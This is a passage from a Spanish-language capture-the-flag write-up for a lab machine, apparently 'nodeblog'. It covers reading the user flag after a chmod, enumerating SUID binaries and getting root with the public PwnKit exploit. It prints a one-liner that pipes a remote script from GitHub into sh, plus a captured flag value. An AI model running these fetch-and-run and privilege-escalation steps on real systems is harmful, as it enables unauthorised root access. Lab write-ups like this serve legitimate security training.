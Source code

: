 Si intentamos ingresar al directorio **admin**, nos dira que no tenemos permisos:

```ruby
admin@nodeblog:/home$ cd admin/
bash: cd: admin/: Permission denied
```

Sin embargo, vemos que nosotros somo el propietario de ese directorio:

```ruby
drw-r--r-- 1 admin admin 220 Jan  3  2022 admin
```

Asi que simplemente podemos darle permisos con chmod y ya esta la flag:

```ruby
admin@nodeblog:/home$ chmod +x admin/
admin@nodeblog:/home$ cat admin/user.txt 
e7713113cad6e97e6f762a60e80cba37
```

## Escalada de privilegios

### Via pwnkit

Si buscamos por binarios SUID con el comando

```ruby
find / -perm -u=s -type f 2>/dev/null
```

Podemos ver que existe el de pkexec: **/usr/bin/pkexec**, asi que existe una via potencial para escalar privilegios con **pwnkit**, para explotarla nos guiaremos de este exploit: [https://github.com/ly4k/PwnKit](https://github.com/ly4k/PwnKit)

Ahi nos dicen que podemos ejecutarlo simplemente con un comando:

```ruby
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```

Sin embargo en la maquina no funcionara, asi que descargare el exploit en mi maquina y luego creare un servidor web con python para pasarlo a la maquina victima, simplemente en la maquina victima hacemos un **wget** le damos permisos y ejecutamos y ya somos root:

```ruby
admin@nodeblog:/tmp$ chmod +x PwnKit 
admin@nodeblog:/tmp$ ./PwnKit 
root@nodeblog:/tmp# whoami 
root
root@nodeblog:/tmp# 
```
Sin embargo, esta forma de escalar privilegios esta guarra, asi que lo haremos por la intencionada

### Via mongodb enumeration

Al principio del writeup les habia mencionado que el sitio web es muy probable que use **MEAN stack**, eso significa que usa:
